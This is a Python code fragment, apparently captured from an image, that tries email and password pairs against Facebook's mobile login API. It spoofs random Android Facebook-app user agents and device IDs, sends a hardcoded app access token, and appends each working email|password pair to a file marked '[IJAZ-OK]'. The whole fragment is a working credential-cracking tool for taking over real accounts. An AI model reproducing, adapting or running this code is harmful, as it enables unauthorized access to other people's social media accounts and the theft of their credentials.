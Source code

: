 				
				application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
				application_version_code=str(random.randint(000000000,999999999))
				__iam_genius = random.choice(android_models)
				phone_model = __iam_genius.split('|')[0]
				phone_company = __iam_genius.split('|')[1]
				dimensions = __iam_genius.split('|')[2]
				ffb=random.choice(fbks)
				dvlk = random.choice(usr)
				ua_string = f'{str(dvlk)} [FBAN/FB4A;FBAV/{str(application_version)};FBPN/com.facebook.katana;FBLC/en_PK;FBCR/null;FBBV/{str(application_version_code)};FBMF/{str(phone_company)};FBBD/{str(phone_company)};FBDV/{str(phone_company)};FBSV/8.1.0;;FBDM/'+'{density=2.75,height=1440,width=720};]'
				li = ['28','29','210']
				li2 = random.choice(li)
				j1 = ''.join(random.choice(digits) for _ in range(2))
				j2 = li2+j1
				device_family_id = str(uuid.uuid4())
				adid = str(uuid.uuid4())
				machine_id = ''.join(random.choice(ascii_uppercase+ascii_lowercase+digits+'_') for _ in range(24))
				data = {'adid':adid,
				'format':'json',
				'device_id':device_family_id,
				'email':ids,
				'password':pas,
				'generate_analytics_claim':'1',
				'community_id':'','cpl':'true','try_num':'1',
				'family_device_id':device_family_id,
				'credentials_type':'device_based_login_password',
				'generate_session_cookies':'1',
				'error_detail_type':'button_with_disabled',
				'source':'device_based_login',
				'machine_id':machine_id,
				'login_location_accuracy_m':'1.0',
				'meta_inf_fbmeta':'',
				'advertiser_id':adid,
				'encrypted_msisdn':'',
				'currently_logged_in_userid':'0',
				'locale':'en_PK',
				'client_country_code':'PK',
				'method':'auth.login',
				'fb_api_req_friendly_name':'authenticate',
				'fb_api_caller_class':'com.facebook.account.login.protocol.Fb4aAuthHandler',
				'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
				head = {
				'content-type':'application/x-www-form-urlencoded',
				'x-fb-sim-hni':str(random.randint(2e4,4e4)),
				'x-fb-connection-type':'unknown',
				'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
				'user-agent':'Mozilla/5.0 (Linux; Android 10; Infinix NOTE 2 LTE Build/LMY47D) AppleWebKit/537.36 (KHTML, seperti Gecko) Versi/4.0 Chrome/101.0.4951.54 Mobile Safari/537.36',
				'x-fb-net-hni':str(random.randint(2e4,4e4)),
				'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
				'x-fb-connection-quality':'EXCELLENT',
				'x-fb-friendly-name':'authenticate',
				'accept-encoding':'gzip, deflate',
				'x-fb-http-engine':	'Liger'}
				url = 'https://b-api.facebook.com/method/auth.login'
				po = requests.post(url,data=data,headers=head,allow_redirects=False).text
				q = json.loads(po)
				if 'session_key' in q:
					print('\r\r\033[1;32m [IJAZ-OK] '+ids+' | '+pas+'\033[1;97m')
					open('/sdcard/IJAZ-OK.txt','a').write(ids+'|'+pas+'\n')
					oks.append(ids)